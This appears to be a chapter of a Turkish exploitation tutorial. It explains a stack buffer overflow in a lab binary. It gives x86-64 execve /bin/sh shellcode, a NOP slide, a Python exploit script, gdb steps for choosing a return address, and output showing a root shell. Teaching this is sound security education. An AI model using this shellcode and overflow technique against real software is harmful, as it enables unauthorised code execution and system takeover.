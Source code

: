 # Hedefimiz
Bu bölüm için hedefimiz programın akışını değiştirerek bir shell
çalıştırmak.

# Kod analizi
Kodda bulunan zafiyet 0x0 bölümü ile aynı. Kodun tek farkı `cant_get_here`
fonksiyonunu içermemesi. Ki hedefimiz artık bu fonksiyona erişmemizi gerektirmediğinden
bu bizim için bir şey değiştirmiyor.

# Exploit
Önceki 0x0 bölümünden farklı olarak burda amacımız kod akışını
tamamı ile değiştirerek bir shell çalıştırmak. Fakat bunu nasıl yapabiliriz?

Diğer örnekte kod bizim için hazırdı ve tek yapmamız gereken dönüş
adresini bu koda işaret edicek şekilde değiştirmekti. Fakat bu sefer elimizde
hazır bir kod yok, dönüş adresini değiştirebilsek de bir shell çalıştıracak
bir noktaya erişmemiz mümkün değil.

Ya da öyle mi? Programa kendi kodumuzu ekleyemiyeceğimizi kim söyledi ki!

### Tanıştırıyım; shellcode!
Shellcode, bir zafiyetin exploitinde kullanılan küçük bir parça koda verilen
isim. Genelde bu kod bir shell başaltığından (bash, sh vs.) bu isime sahiptir.
Peki bu bizim ne işimize yarıyacak?

Bildiğiniz gibi stack üzerine yazma yapabiliyoruz, ve de dönüş adresini değiştirebiliyoruz.
Bu durumda stack üzerine bir shellcode yerleştirip dönüş adresini bu shellcode'a
işaret etcek şekilde değiştirerek istediğimiz shellcode'u çalıştırabiliriz.

Bu örnekte kullanacağımız shellcode [exploit.db'den bir /bin/sh shellcode'u](https://www.exploit-db.com/exploits/46907).
Bu shellcode'un kaynak kodu aşağıdaki şekilde:
```asm
global _start
section .text
_start:
	xor rsi,rsi
	push rsi
	mov rdi,0x68732f2f6e69622f
	push rdi
	push rsp
	pop rdi
	push 59
	pop rax
	cdq
	syscall
```
Bu shellcode'u açıklamak için çok ileri gitmeyeceğim. Tek bilmeniz gereken `0x68732f2f6e69622f` değerinin endianness'dan kaynaklı
ters çevirilmiş `/bin//sh` olduğu (fazladan slash değeri 8 byte'a tamamlamak için). Ve [59 değeri de `execve` sistem çağrısının
kodu.](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

Shellcode'u kendiniz derlemek için `shellcode.s` olarak kaydedin:
```
nasm -f elf64 shellcode.s -o shellcode.o
ld shellcode.o -o shellcode
```
Bu kodun hex haline ihtiyacımız var, ELF dosyasının parçası olan diğer bölümler ile ilgilenmiyoruz. Buna erişmek için:
```
objdump -d shellcode
```
Son olarak python kodunda kullanmak için shellcode'unuzu formatlayabilirsiniz:
```
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

### NOP slide
Şimdi kritik bir soru, shellcode'unu nereye yerleştireceğiz? Hemen dönüş adresinden sonraki yere yerleştirip,
dönüş adresini buraya işaret edicek şekilde değiştrebiliriz. Fakat burda şöyle bir sorun ortaya çıkıyor: stack
adresi aynı olmak zorunda değil.

Birçok değişkene bağlı olarak stack adresi küçük farklar ile kayabilir. Bu değişkenlerden bir tanesi ortam değişkenleri.
Ortam değişkenleri ve program argümanları, bellekde stack'den hemen önce yerleştirilir. Bu iki elemanın boyutuna bağlı olarak
stack'in adresi aşağı ya da yukarı kayabilir. Bu da doğrudan stack üzerinde belirli bir adresi kullanan exploitimizi bozacaktır.

Bunu önlemek adına shellcode'umuzdan önce  bir sürü `nop` komutunun (opcode `\x90`) bulunduğu NOP slide isimli bir bölüm yerleştireceğiz.
`nop` komutu "No operation" anlamına gelir, yani bu komut herhangi birşey yapmadan sıradaki komuta geçiyor.

Daha sonra dönüş adresini NOP slide içinde bir adrese gelicek şekilde ayarlayacağız. Bu sayede ne olursa olsun en sonunda
shellcode'una erişebileceğiz.

Bunu daha iyi anlamak adına NOP slide olmadan exploitimizi stack üzerinde canlandıralım:
```
=> 19: [dönüş adresi]
   20: [shellcode]
   21: [rastgele stack verisi]
   22: [rastgele stack verisi]
   ...
```
Bu örnekte dönüş adresimiz 20'ye işaret ediyor diyelim, shellcode başarılı ile çalışacaktır:
```
-> 19: [dönüş adresi]
=> 20: [shellcode]
   21: [rastgele stack verisi]
   22: [rastgele stack verisi]
   ...
```
Ancak stack adresinin küçük farklar ile değişmesi mümkün:
```
=> 17: [dönüş adresi]
   18: [shellcode]
   19: [rastgele stack verisi]
   20: [rastgele stack verisi]
   ...
```
Bu durumda exploitimiz aynı olduğundan yine 20'ye döneceğiz ama stack adresi değiştiğinden bu sefer
shellcode'umuz çalışmayacaktır ve segfault ile programımız sonlanacaktır:
```
-> 17: [dönüş adresi]
   18: [shellcode]
   19: [rastgele stack verisi]
=> 20: [rastgele stack verisi]
   ...
```
NOP slide'in amacı da tam olarak bunu önlemek:
```
=> 19: [dönüş adresi]
   20: [nop]
   21: [nop]
   22: [nop]
   23: [nop]
   24: [shellcode]
   25: [rastgele stack verisi]
   26: [rastgele stack verisi]
   ...
```
NOP'a dönüş yaptıktan sonra kodumuz 24 adresinde olan shellcode'a kadar çalışacaktır.
```
-> 19: [dönüş adresi]
-> 20: [nop]
-> 21: [nop]
-> 22: [nop]
-> 23: [nop]
=> 24: [shellcode]
   25: [rastgele stack verisi]
   26: [rastgele stack verisi]
   ...
```
NOP slide olduğu durumunda az önceki küçük adres farkları sorun olmayacaktır:
```
-> 17: [dönüş adresi]
   18: [nop]
   19: [nop]
-> 20: [nop]
-> 21: [nop]
=> 22: [shellcode]
   23: [rastgele stack verisi]
   24: [rastgele stack verisi]
   ...
```

### Exploit vakti >:)
Tüm bu yeni şeyleri önceki exploitimiz ile birleştirebiliriz:
```python
from struct import pack

filler  = b"A"*40
ret     = pack("<Q", 0x<stackden adres>) # dönüş adresi
nop     = b"\x90"*1000 # nop slide
shell   = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05\x90" # shellcode

f = open("/tmp/ex", "wb")
f.write(filler+ret+nop+shell+"\n")
f.close()
```
Tabiki exploitimizi tamamlamak için stack'den uygun bir adres lazım, bunun için programı
gdb ile açıp `scanf()` çağrısından sonra bir break point yerleştirip stack'de dönüş adresinden
sonra gelen nop slide civarında bir adres seçebiliriz:
```bash
python3 -c 'print("A"*40)' > /tmp/ex
gdb ./0x1.elf
set disassembly-flavor intel
disassemble main
break *0x000000000040116e # sizde adres farlı olabilir
run < /tmp/ex
x/24g $rsp
```
Bu örnekte ben dönüş adresinden biraz sonra gelen bir adres olan `0x7fffffffeaa0` adresini seçtim,
sizin için bu adres farklı olabilir.

Bu adres ile exploiti çalıştıralım hadi:
```bash
python3 exploit.py
cat /tmp/ex | ./0x1.elf
```
Eğer doğru takip etiyseniz programınız çökmemesi lazım, ama aynı zamanda bir shell almıyacaksınız. Nasıl yani
exploitimiz başarısız mı oldu? Başarısız olsaydı program segfault hatası alırdı, yani hayır exploitimiz başarılı.
Sadece exploiti kullanırken küçük bir hata yaptık.

Bash'de `|` karakteri içeriği sağladıktan sonra stdin yanı standart girdi kanalını kapatıyor. Bundan kaynaklı olarak
shellimiz çalışsada biz daha bir komut gönderemeden bash shelli sonlandırıyor. Bunu engellemek adına sadece stdin'i
açık tutmamız lazım:
```
(cat /tmp/ex; echo; cat) | ./0x1.elf
```
Burda önce exploitimizi gönderiyoruz. Ardından `scanf()` çağrısının sonlanması adına bir yeni satır gönderiyoruz. Son olarak da
cat komutunu bir parametre olmadan kullanarak shell'in stdin'i ile iletişim sağlıyoruz. Artık shell üzerinden komut gönderebiliriz!

Başarılı exploit ile aşağıdaki gibi bir çıktı almanız lazım:
```
root@o101:~/0x1# (cat /tmp/ex; echo; cat) | ./0x1.elf
Hello, what's your name?
Nice to meet you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
id
uid=0(root) gid=0(root) groups=0(root)
```

---
[Önceki](0x0.md) | [Sonraki](0x2.md)
